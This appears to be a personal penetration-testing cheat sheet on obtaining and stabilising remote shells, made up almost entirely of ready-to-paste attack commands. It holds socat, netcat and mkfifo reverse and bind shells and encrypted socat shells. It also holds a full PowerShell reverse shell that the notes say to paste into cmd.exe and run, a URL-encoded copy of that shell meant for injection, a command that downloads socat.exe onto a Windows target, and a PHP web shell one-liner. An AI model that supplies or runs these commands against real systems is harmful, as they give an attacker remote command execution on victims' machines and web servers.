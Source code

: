 Stabilising Shells
===
**Technique 1**
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. `stty raw -echo; fg`

**Technique 2**
1. `sudo apt install rlwrap`
2. `rlwrap nc -lvnp <port>`
3. Ctrl + z
4. `stty raw -echo; fg`

**Socat shell in Win**
`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`


**Socat rev_shell**
listener = `socat tcp-l:<port>`
connector = `socat tcp:<lhost>:<lport> EXEC:powershell.exe,pipes` (win)
connector = `socat tcp:<lhost>:<lport> EXEC:"bash -li"` (lin)
_bind shells are the listener and connector commands combined - aka `socat tcp-l:<port> EXEC:<win/lin>`_

universal connector = `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**BEST LINUX SOCAT**
```socat TCP-L:<port> FILE:`tty`,raw,echo=0 ```
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

##### Encrypted Socat Shell
1. `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` to create the cert
2. `cat shell.key shell.crt > shell.pem`
3. rev-shell listener `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
###### example connection
``socat openssl-listen:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```
`socat openssl:10.10.10.5:53,verify=0 exec:"bash -li" pty,stderr,sigint,setsid,sane`

Mkfifo Listener
===
_(for bind shell)_
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

To Keep on Hand:
===
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
--> copy into cmd.exe (or similar) and execute
--> dont forget to set up a listener
(`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`)
Basic PHP webshell oneliners
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`